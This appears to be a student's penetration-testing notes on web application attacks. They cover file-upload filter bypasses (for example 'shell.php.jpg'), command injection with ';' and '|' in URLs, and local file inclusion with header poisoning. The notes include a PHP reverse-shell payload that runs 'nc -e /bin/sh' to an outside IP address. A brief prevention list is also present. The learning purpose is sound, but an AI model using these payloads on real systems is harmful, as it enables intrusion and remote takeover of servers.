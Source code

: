 ### File uploads :

- Check the website for the feature of uploading files

- Test the uploading feature with the expected file type

- Try uploading a different type of file and see the output of the process

- Upload a shell to the application . __The shell has to be inthe same langugae the website is coded in__


__Tools can be used__


- __Weavely:__ generates a php payloads 


__Advanced Fileuploads___

- Upload the allowable file to the web and intercept with the required file. [tampering the header]

- To bypass the file extension filter, add the jpg or any allowable exentensions at the end of the shell EX:" shell.php.jpg


__Prevenntion__

- Check for the type of file 

- Check foe the extension of the file 

- Analyze the contents of the file and recreate them 


### Code Execution:

- Test the website by submitting simple command as __ls__ for linux and __dir__ for windows , if it executes, it means that there is code execution vulnerability

- use semi-colod __;__ to separate the commands __EX: https:www.//site.com/index.php; ls__

- If the above command did not do anything, it could be as a result of command filtering on the applcation.

- Sometimes the semicolon does not work, piping __|__ might work work to separate the commands __EX: https:www.//site.com/index.php | ls__

### Local File Inclusion:

-  is an exploit that allows attacker to browser any file on the server

- Discovering type of vulnerability would be trhough browsing or spidering the web application, EX: www.ste.com/?page=iclude.php

  The URL shows that there a page is begining called with the paging URl == __?page=inlcude.php__

- Exploiting this vulnerability would be through going back into the root directory and look for important files 

- It is important to note that having many path traversal won't affect the validity of the url :

  For example : if the path to the root directory is 3 ../../../ path traversal , putting 5 won't effect the vaility of the path, you can still access the root directory. Therefore, always include more ../ to ensure getting to the root directory
  
  
__Advanced Technique for LFI __

- In advanced techniques for LFI, a tampering the head of the request is one of the essential thigs.

- User-agents, language and Accept can be modified through BurpSuite include the required shell commnads

__Ex: <?phpinfo();?> __ 

- __Shell Example:__ 

__<?passthru('nc -e /bin/sh 10.25.26.74 6666');?>__

- The above shell exploited the local innlusion vulnerability and use it to get access to the whole application 



